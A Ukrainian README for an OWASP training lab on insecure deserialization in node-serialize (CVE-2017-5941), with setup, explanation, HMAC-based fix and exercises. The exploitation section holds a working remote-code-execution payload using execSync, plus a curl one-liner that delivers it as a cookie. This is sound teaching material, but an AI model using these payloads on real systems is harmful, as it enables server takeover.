

[🏠 Головна](../README.md) · [⬅ X07 File Upload](../X07_FileUpload/README.md) · [X09 Race Condition ➡](../X09_RaceCondition/README.md)

# 📦 X08: Insecure Deserialization → RCE

> **OWASP A08:2025 — Software or Data Integrity Failures** · порт **3018** · CWE-502 · CVE-2017-5941
>
> ⚠️ Пейлоад виконує команди ОС на сервері. Тільки `127.0.0.1`!



## 📋 Зміст

- [Мета](#-мета)
- [Запуск](#-запуск)
- [Вразливість](#-вразливість)
- [Експлуатація](#-експлуатація)
- [Виправлення](#-виправлення)
- [Завдання](#-завдання)
- [Джерела](#-джерела)

---

## 🎯 Мета

Показати, чому десеріалізація даних з недовіреного джерела, які клієнт може змінити, дає віддалене виконання коду, і як зробити стан на клієнті **цілісним** (HMAC) та **безпечним** (JSON замість «серіалізації об’єктів з функціями»).

Доповнює [A08](../A08_DataIntegrityFailures/README.md) (Prototype Pollution).

## 🚀 Запуск

```bash
cd X08_InsecureDeserialization
npm install        # встановить node-serialize@0.0.4 — npm audit покаже critical, так і задумано
npm start          # http://127.0.0.1:3018
```

## 🚫 Вразливість

Профіль користувача зберігається в cookie `profile` як `base64(serialize(obj))` і на кожен запит десеріалізується:

```javascript
const profile = serialize.unserialize(Buffer.from(cookie, 'base64').toString());
```

`node-serialize` підтримує серіалізацію **функцій**: значення з префіксом `_$$ND_FUNC$$_` проходить через `eval()`. Якщо додати `()` в кінці, отримуємо IIFE, яка виконується одразу під час десеріалізації.

| Cookie | Статус |
|---|---|
| `profile` → `node-serialize.unserialize()` | 🔴 RCE |
| `profile_secure` → HMAC + `JSON.parse` + схема | 🟢 |

## 💣 Експлуатація

**Пейлоад (до base64):**

```json
{"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('whoami').toString().trim()}()"}
```

Кнопка «Згенерувати шкідливу cookie» робить це автоматично. Відповідь:

```json
{ "greeting": "Привіт, <результат whoami>!" }
```

**Вручну:**

```bash
P=$(node -e "console.log(Buffer.from(JSON.stringify({username:\"_\$\$ND_FUNC\$\$_function(){return require('child_process').execSync('whoami').toString()}()\"})).toString('base64'))")
curl -H "Cookie: profile=$P" http://127.0.0.1:3018/api/profile
```

> Той самий клас атак: Java (`ObjectInputStream`, ysoserial), PHP (`unserialize`), Python (`pickle`), .NET (`BinaryFormatter`), YAML (`yaml.load`).

## ✅ Виправлення

```javascript
// Видача: JSON + HMAC-підпис
const payload = Buffer.from(JSON.stringify({ username, theme: 'dark' })).toString('base64url');
const cookie = payload + '.' + hmac(payload);

// Перевірка: спершу підпис, потім JSON.parse, потім схема
if (!timingSafeEqual(sig, hmac(payload))) return res.status(403)...;
const profile = JSON.parse(Buffer.from(payload, 'base64url'));
if (typeof profile.username !== 'string') return res.status(400)...;
```

- Ніколи не десеріалізуй **код**: тільки дані (JSON) і тільки після перевірки підпису.
- Краще — зберігати стан на сервері, а клієнту віддавати лише непрозорий ID сесії.
- `npm audit` / Dependabot ловлять `node-serialize` як critical. Це перетин з [A03:2025 Supply Chain](../X11_SupplyChain/README.md).

## 🧪 Завдання

1. Отримай `whoami`, `hostname` та вміст директорії через cookie.
2. Запусти `npm audit` і знайди CVE для `node-serialize`.
3. Спробуй змінити `username` у `profile_secure` (через DevTools → Application → Cookies). Чому 403?

## 📚 Джерела

- [OWASP Top 10:2025 — A08 Software or Data Integrity Failures](https://top10.owasp.org/2025/A08_2025-Software_or_Data_Integrity_Failures/)
- [OWASP Deserialization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)
- [CVE-2017-5941 (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)

---

[⬆ До змісту](#-зміст) · [🏠 Головна](../README.md)
